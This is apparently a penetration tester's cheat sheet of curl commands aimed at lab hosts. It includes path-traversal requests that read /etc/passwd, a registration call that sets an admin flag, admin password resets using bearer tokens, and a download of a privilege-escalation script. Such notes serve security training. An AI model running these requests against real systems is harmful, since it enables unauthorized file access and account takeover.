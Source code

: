 > curl is a command line tool for transferring data with URL syntax, supporting DICT, FILE, FTP, FTPS, GOPHER, HTTP, HTTPS, IMAP, IMAPS, LDAP, LDAPS, POP3, POP3S, RTMP, RTSP, SCP, SFTP, SMTP, SMTPS, TELNET and TFTP.
> 
> curl supports SSL certificates, HTTP POST, HTTP PUT, FTP uploading, HTTP form based upload, proxies, cookies, user+password authentication (Basic, Digest, NTLM, Negotiate, kerberos…), file transfer resume, proxy tunneling and a busload of other useful tricks.


# Usage

#Web_Application 

Using `curl`
```bash
curl http://192.168.169.101:80/
```

Using `curl` to ignore certificate errors for HTTPS
```bash
curl -k http://192.168.169.101:80/
```

Using `curl` with `grep`
```bash
curl -v --silent http://192.168.169.101:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd 2>&1
```

Using `curl` to include the response headers in the output along with the body
```bash
curl -i http://192.168.169.101:6969/users/v1/login
```

Using `curl` to use the exact path provided
```bash
curl --path-as-is http://192.168.169.101:3000/public/someplugin/somearchive/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

Using `curl` POST E.g., To register a new user as admin
```bash
curl -d '{"password":"salespassword","username":"hentaisalesman","email":"salesman@hentai.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.169.101:6969/users/v1/register
```
- `-d` sets a default `Content-Type:`

Attempting to Change the Administrator Password via a POST request
```bash
curl  \
  'http://192.168.169.101:8080/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyiJIUzI1NiJ0eXaiOiyKV1QyjCJNbGcie69.eDkyNzEyMDZsIeHyJlNAhdCW6MTY0OTI3MDkfMSwic3ViyjiOyE2mqoib8Zmc2VjIn0.MYbSpUGOTatBkYH-tw6ltzW0jNJNCDACR3_FdYLRkew' \
  -d '{"password": "getpwned"}'
```

Attempting to Change the Administrator Password via a PUT request
```bash
curl -X 'PUT' \
  'http://192.168.231.16:8080/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyiJIUzI1NiJ0eXaiOiyKV1QyjCJNbGcie69.eDkyNzEyMDZsIeHyJlNAhdCW6MTY0OTI3MDkfMSwic3ViyjiOyE2mqoib8Zmc2VjIn0.OAsgLb8IHbJI7f9KaRAkrywoacrZ5eZH1rERUF0QqA4' \
  -d '{"password": "getpwned"}'
```

# Downloading File

#File_Sharing 

Downloading a file
```bash
curl -o unix-privesc-check http://192.168.169.101/unix-privesc-check
```
